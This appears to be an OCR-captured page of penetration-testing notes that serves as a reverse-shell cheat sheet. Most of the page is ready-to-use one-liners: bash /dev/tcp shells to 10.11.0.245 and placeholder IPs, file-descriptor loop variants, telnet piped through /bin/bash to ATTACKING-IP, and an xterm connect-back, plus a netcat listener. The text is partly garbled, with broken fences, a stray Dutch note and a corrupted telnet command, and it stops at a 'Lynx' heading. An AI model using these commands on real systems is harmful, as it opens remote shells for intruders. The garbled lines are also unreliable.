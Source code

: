 ```

- If a server is listening on a port:
            ```
               - nc -lvp port
               ```
-  then we can use the below to connect
```
                - Method 1:
                   - /bin/bash -i >&/dev/tcp/10.11.0.245/443 0>&1
                - Method 2:
                   - exec 5<>/dev/tcp/IP/80
                   ```
                   ```
- cat <&5 | while read line; do $line 2>&5 >&5; done
                - # or:
                   - while read line 0<&5; do $line 2>&5 >&5; done
                - Method 3:
                   0<&196;exec 196<>/dev/tcp/IP/Port; sh <&196 >&196 2>&196
```
-- We may execute the above using bash -c "Aboveline "
### ## Information about Bash Built-in /dev/tcp File (TCP/IP) - CHECK DIT KOMENDE, een CHILD VAN hierboven is
                    - http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip
### ## The following script fetches the front page from Google:
```
                   exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
```
The first line causes file descriptor 3 to be opened for reading and writing on the specified TCP/IP socket. This is a special form of the exec statement. From the bash man page:
                       - exec [-cl] [-a name] [command [arguments]]
                        - If command is not specified, any redirections take effect in the current shell, and the return status is 0. So using exec without a command is a way to open files in the current shell.
Second line: After the socket is open we send our HTTP request out the socket with the echo … >&3 command. The request consists of:
                       GET / HTTP/1.1
host: http://www.google.com
Connection: close
                        - Each line is followed by a carriage-return and newline, and all the headers are followed by a blank line to signal the end of the request (this is all standard HTTP stuff).
                    - Third line: Next we read the response out of the socket using cat <&3, which reads the response and prints it out.
### Telnet Reverse Shell
           If netcat is not available or /dev/tcp
           ```
            - Code:
               rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
               ```

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
### XTerm
            - One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.
               xterm -display 10.0.0.1:1
            - To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):
               - Xnest :1
            - You’ll need to authorise the target to connect to you (command also run on your host):
               - xhost +targetip
### Lynx
```
